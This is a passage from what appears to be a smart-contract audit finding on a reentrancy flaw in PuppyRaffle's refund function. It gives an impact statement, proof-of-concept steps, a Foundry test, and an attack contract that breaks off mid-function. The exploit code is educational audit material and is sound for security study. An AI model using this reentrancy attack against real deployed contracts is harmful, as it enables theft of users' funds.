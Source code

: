 **Impact** An attacker can drain the entire raffle funds by calling the `PuppyRaffle::refund` function.

**Proof of Concept**

1. User enter raffle.
2. Attacker setup the contract with a `fallback` function that calls the `refund` function.
3. Attacker enter thr raffle
4. Attacker calls the `refund` function from the attack contract and drain the raffle funds.

`test_Rentrancy_refund` Code:

```javascript

function test_Rentrancy_refund() public {
        address[] memory players = new address[](4);
        players[0] = playerOne;
        players[1] = playerTwo;
        players[2] = playerThree;
        players[3] = playerFour;
        puppyRaffle.enterRaffle{value: entranceFee * 4}(players);
        ReentranctyAttackContract attackerContract = new ReentranctyAttackContract(
                puppyRaffle
            );
        address attackerUser = makeAddr("attackerUser");
        vm.deal(attackerUser, 1e18);

        uint256 startingAttackerContractBalance = address(attackerContract)
            .balance;
        uint256 startingContractBalance = address(puppyRaffle).balance;

        vm.prank(attackerUser);
        attackerContract.attack{value: entranceFee}();
        console.log(
            "attacker Contract Balance",
            startingAttackerContractBalance
        );
        console.log("starting contract balance", startingContractBalance);
        console.log(
            "ending attcker balance",
            address(attackerContract).balance
        );
        console.log("ending contract balance", address(puppyRaffle).balance);
    }

```

Attack Contract Code:

```javascript

    `contract` ReentranctyAttackContract {
     PuppyRaffle puppyRaffle;
      uint256 entranceFee;
      uint256 attackeIndex;

       constructor(PuppyRaffle _puppyRaffle) {
         puppyRaffle = _puppyRaffle;
         entranceFee = puppyRaffle.entranceFee();
     }

     function attack() external payable {
            address[] memory players = new address[](1);
            players[0] = address(this);
            puppyRaffle.enterRaffle{value: entranceFee}(players);
            attackeIndex = puppyRaffle.getActivePlayerIndex(address(this));
         puppyRaffle.refund(attackeIndex);
```